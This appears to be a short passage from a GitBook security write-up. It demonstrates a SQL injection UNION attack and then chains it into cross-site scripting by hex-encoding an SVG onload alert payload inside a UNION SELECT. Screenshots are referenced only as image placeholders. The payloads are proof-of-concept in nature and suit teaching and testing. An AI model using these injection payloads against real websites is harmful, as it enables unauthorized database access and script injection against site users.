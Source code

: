 Ok i will Try Use union Attack

```sql
1' union select 1,2#
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

Ok  Try again UNION Attack to make XSSSQi&#x20;

\<svg src=x onload=alert(/H3ckt00r/)>

Make  Encoded to HEX && ad 0x in begin payload

**`0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53`**

```sql
1' UNION SELECT 1,0x3c737667207372633d78206f6e6c6f61643d616c657274282f4833636b743030722f293e53#
```

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>
